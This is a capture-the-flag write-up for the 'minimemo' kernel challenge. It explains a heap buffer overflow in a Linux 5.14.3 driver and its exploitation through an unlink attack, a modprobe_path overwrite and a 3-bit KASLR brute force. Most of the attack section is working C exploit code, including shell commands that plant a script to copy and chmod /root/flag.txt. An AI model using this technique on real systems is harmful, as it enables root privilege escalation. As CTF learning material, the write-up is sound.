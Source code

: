 # minimemo
I solved kernel exploit challenge for the first time.  
I'm so glad, thanks to author @ptrYudai.  
He always give us good tasks.  

## TLDR
### Vulnerability
* buffer overflow on kernel heap
### How to attack
* unlink attack
* overwrite modprobe\_path

## Challenge
### Description
Linux kernel security function
* KASLR  : Enable
* KPTI   : Disable
* SMEP   : Disable
* SMAP   : Disable

Linux 5.14.3
### Exploit 
I solved this challenges with brute force attack(3bit + a).  
So my solution was not smart.  

We can overwrite "fd" member of struct notelist\_t, but with value of "id" member.  
When the most lowest bytes of "id" is proper, we cana link user land data to linked list, because SMAP is disable.  
If it can be, we can get the address of the kernel heap address and the kernel module addresss, and do AAW via user land data.  
But we cannot get the kernel base address.  

See around the kernel module address, there are some addresses which based on the kernel base address.  
* memory dump around global variable top(kernel module address = 0xffffffffc006b000)
``
wndbg> x/20gx 0xffffffffc006b000+0x2100
0xffffffffc006d100:     0x0000000000000000      0x0000000000000000
0xffffffffc006d110:     0x0000000000000000      0xffffffffc006d100  <- top.fd
0xffffffffc006d120:     0xffffffffc006d100      0x0000000000000000  <--- top.bk
0xffffffffc006d130:     0x0000000000000000      0x0000000000000000
0xffffffffc006d140:     0x0000000000000000      0xffffffffb72a9e80  <- kernel base address + ????
0xffffffffc006d150:     0xffffffffb72a9e80      0x6f6d656d696e696d  <--- kernel base address + ????
0xffffffffc006d160:     0x0000000000000000      0x0000000000000000
0xffffffffc006d170:     0x0000000000000000      0x0000000000000000
0xffffffffc006d180:     0x0000000000000000      0x0000000000000000
0xffffffffc006d190:     0xffff922e81339600      0xffff922e811191e0
```

I overwrote the lowest 3 bytes of these address with offset of modprobe\_path. To success this attack, we need to conqure 3bit brute force(It is caused by KASLR).  

A part of exploit
```c
int dev_fd;

long create() 
{
	long id;
	request_t req;
	id = ioctl(dev_fd, CMD_NEW, &req);
	if(id < 0)
		err_exit("[!] ERROR CMD_NEW\n");
	printf("[+] CMD_NEW: id = 0x%lx\n", id);
	return id;
}

void edit(request_t* req)
{
	long ret;
	ret = ioctl(dev_fd, CMD_EDIT, req);
	if(ret < 0)
		err_exit("[!] ERROR CMD_EDIT\n");
	printf("[-] CMD_EDIT DONE\n");
	return;
}

void delete(int id)
{
	long ret;
	request_t req;
	req.id = id;

	ret = ioctl(dev_fd, CMD_DEL, &req);
	if(ret < 0)
		err_exit("[!] ERROR CMD_DEL\n");
	printf("[-] CMD_DEL DONE\n");
	return;
}

int idlist[0x100] = {0};
int off_list = 0;
int top = 0;

long addr_module;
long addr_heap;
long addr_kernel;
long kernel_base;

int main(){
	request_t req;
	notelist_t notelist;
	notelist_t notelist_sub;
	int id, i ;
	int offset = -1;
	int padding;
	dev_fd = open("/dev/memo", O_RDWR);
	if(dev_fd < 0)
		err_exit("open error");

	system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/badbin");
	system("echo -ne '#!/bin/sh\nchmod 777 /root/flag.txt && cp /root/flag.txt /tmp/flag' > /tmp/km2.sh");
	system("chmod +x /tmp/km2.sh /tmp/badbin");
	puts("[+] START");
	
	memset(&notelist, 0, sizeof(notelist_t));
	memset(req.data, 0x41, 20);
	req.size = 20;

	for(i = 0; i < 5; i++){
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
	}
	
	while(1) {
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
		//id = (id & 0x3f);
		//if(id >= 0x8 && id <= 0x14) {
		id = (id & 0xff);
		if(id >= 0xc8 && id <= 0xd4) {
			offset = off_list-1;
			break;
		}
	}

	for(i = 0;i < 5; i++){
		id = create();
		req.id = id;
		edit(&req);
		idlist[off_list] = id;
		off_list++;
	}

	req.id = idlist[offset];
	req.size = 21;
	edit(&req);

	req.id = 0x41414141;
	padding = (0x14-(idlist[offset] & 0x3f));
	req.size = 8+padding;
	memset(req.data, 0x41, padding);
	*((long*)&req.data[padding]) = &notelist;
	edit(&req);

	
	while(notelist.bk == 0){
		delete(idlist[--off_list]);	
	}
	addr_module = notelist.bk;	
	printf("[+] top = %lx\n", (long)notelist.bk);
	id = create();
	addr_heap = notelist.bk;
	printf("[+] heap = %lx\n", (long)notelist.bk);
	
	notelist.note.id = 0x42424242;
	notelist.fd = addr_module+0x44;
	
	req.size = 3;
	req.id = 0;
	*((long*)req.data) = 0x8367c0-4; // 3bit brute force
	
	edit(&req);
	
	notelist.fd = addr_module+0x2c;
	req.size = 4;
	req.id = 0;
	*((long*)req.data) = 0x43434343;
	
	edit(&req);
	  
	notelist.fd = addr_module+0x30;
	req.size = 12;
	req.id = 0;
	strcpy(req.data, "/tmp/km2.sh\x00");
	edit(&req);
	
	puts("[+] END");
	system("/tmp/badbin");
	
	return 0;
}
```

My exploit code is [k\_exp.py](https://github.com/kam1tsur3/2021_CTF/blob/master/asis/pwn/minimemo/exploit/k_exp.c).

## Reference

twitter: @kam1tsur3
